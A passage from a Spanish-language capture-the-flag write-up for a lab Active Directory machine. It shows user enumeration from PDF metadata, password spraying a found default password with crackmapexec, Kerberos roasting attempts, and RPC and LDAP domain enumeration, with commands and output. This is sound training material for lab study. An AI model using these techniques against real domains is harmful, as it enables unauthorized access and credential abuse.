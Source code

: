```console
└─$ for file in $(ls); do exiftool $file | tail -n1 | awk '{print $3}'; done | tee users.txt
└─$ cat users.txt | sort -u | sponge users.txt;
└─$ kerbrute userenum --dc 10.10.10.248 -d intelligence.htb ./users.txt  # Todos validos
```
Los archivos no se pueden leer directamente por ser pdfs, pero podemos convertidlos a txt: ```for i in $(ls); do pdftotext $i; done```  
Los archivos txt tienen tamaños diferentes cada uno. Uno de los textos (el ultimo), aunque no tenga la contraseña pone algo interesante:  
```
Actualización interna de IT
Recientemente ha habido algunas interrupciones en nuestros servidores web. 
Ted ha creado un script para nitifcarnos por si esto vuelve a pasar.
Además, después de la discusión sobre nuestra reciente auditoría de seguridad, estamos en proceso.
de bloquear nuestras cuentas de servicio.
```
Otro, (2020-06-04) tiene la contraseña ```NewIntelligenceCorpUser9876``` y dice que es la por defecto.  

-----------------------------------
## Part 3: Enumerando los otros servicios
 
Ya tenemos un fichero de usaurios existentes en el sistema. Ya que tenemos el puerto kerberos abierto podemos intentar solicitar un TGT por cada usuario. 
```console
└─$ impacket-GetNPUsers intelligence.htb/ -no-pass -usersfile ./users.txt
```
Dice que todos los usaurios tienen la preauth seteada, por lo que no obtenemos ningun hash NTLM que crackear. 
```console
└─$ crackmapexec smb 10.10.10.248 -u users.txt -p "NewIntelligenceCorpUser9876" --continue-on-success
SMB     10.10.10.248    445    DC  [+] intelligence.htb\Tiffany.Molina:NewIntelligenceCorpUser9876
```
El otro ataque posible de kerberos es:
```console
└─$ impacket-GetUserSPNs intelligence.htb/Tiffany.Molina:NewIntelligenceCorpUser9876
# Nada
```
Vamos a inspeccionar el rpc:
```console
└─$ rpcclient -U "Tiffany.Molina%NewIntelligenceCorpUser9876" 10.10.10.248  -c 'enumdomgroups'
	group:[Domain Admins] rid:[0x200]
└─$ rpcclient -U "Tiffany.Molina%NewIntelligenceCorpUser9876" 10.10.10.248  -c 'querygroupmem 0x200'
	rid:[0x1f4] attr:[0x7]
└─$ rpcclient -U "Tiffany.Molina%NewIntelligenceCorpUser9876" 10.10.10.248  -c 'queryuser 0x1f4'
	User Name   :	Administrator
└─$ rpcclient -U "Tiffany.Molina%NewIntelligenceCorpUser9876" 10.10.10.248  -c 'querydispinfo'
	# Nada interesante
```
Hay una herramienta llamada ldapdomaindump para conseguir una visual mas rapida del dominio.  
```console
└─$ ldapdomaindump -u 'intelligence.htb\Tiffany.Molina' -p 'NewIntelligenceCorpUser9876' 10.10.10.248
[*] Starting domain dump
[+] Domain dump finished
└─$ sudo python3 -m http.server 80
```
![ìnteligence3](https://user-images.githubusercontent.com/96772264/201470471-f4357ac2-28f7-4ae8-86c5-08c21964f0e2.PNG)
![ìnteligence4](https://user-images.githubusercontent.com/96772264/201470481-d5a81788-9ffe-4ed6-9a16-ec63101acffe.PNG)
